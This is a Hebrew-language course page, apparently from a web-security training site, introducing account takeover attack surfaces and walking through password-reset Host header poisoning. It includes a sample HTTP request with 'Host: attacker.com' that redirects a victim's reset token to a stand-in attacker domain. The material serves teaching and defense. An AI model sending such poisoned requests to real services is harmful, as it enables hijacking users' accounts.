

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/2 - תקיפת אותנטיקציה מתקדמת/2.4 - השתלטות על חשבונות/2.4 - השתלטות על חשבונות - הרצאה/index.html · generator: mkdocs

# השתלטות על חשבונות - Account Takeover

## מבוא

השתלטות על חשבון (Account Takeover - ATO) היא אחת החולשות הקריטיות ביותר באפליקציות ווב. היא מאפשרת לתוקף לקבל שליטה מלאה על חשבון של משתמש אחר, כולל גישה למידע רגיש, ביצוע פעולות בשם המשתמש, וגניבת נתונים. בשיעור זה נסקור את הטכניקות המרכזיות להשתלטות על חשבונות ואת דרכי ההגנה.

## מתודולוגיה כללית

### משטחי התקיפה

```
1. Password reset process (Password Reset)
   - Host header poisoning
   - Reset token prediction
   - Token leakage

2. Registration process (Registration)
   - Race conditions (race condition)
   - Duplicate accounts
   - Email verification bypass

3. Account linking (Account Linking)
   - Social Login exploitation
   - Linked account hijacking

4. Account recovery process (Account Recovery)
   - Weak security questions
   - Recovery channel exploitation

5. Exploiting leaked information
   - Credential stuffing
   - Phone number recycling
```

## תקיפה 1: הpoisoning Host Header באיפוס סיסמה - Password Reset Poisoning

### הרקע

כאשר משתמש מבקש איפוס סיסמה, השרת שולח מייל עם לינק איפוס. אם השרת משתמש ב-Host header כדי לבנות את הלינק, תוקף יכול להחליף אותו בדומיין שלו.

![איור זרימה המראה כיצד הרעלת כותרת Host באיפוס סיסמה גורמת לקישור האיפוס להצביע לשרת התוקף ולדליפת הטוקן](../../../images/illustrations/webadv-2-4-reset-poisoning.svg)

### תרחיש תקיפה

```http
# Normal password reset request
POST /forgot-password HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

email=victim@email.com

# Email sent to the victim:
# "Click here to reset your password: https://target.com/reset?token=abc123"
```

```http
# Reset request with a poisoned Host header
POST /forgot-password HTTP/1.1
Host: attacker.com
Content-Type: application/x-www-form-urlencoded

email=victim@email.com

# Email sent to the victim:
# "Click here to reset your password: https://attacker.com/reset?token=abc123"
# When the victim clicks -> the token is sent to the attacker!
```
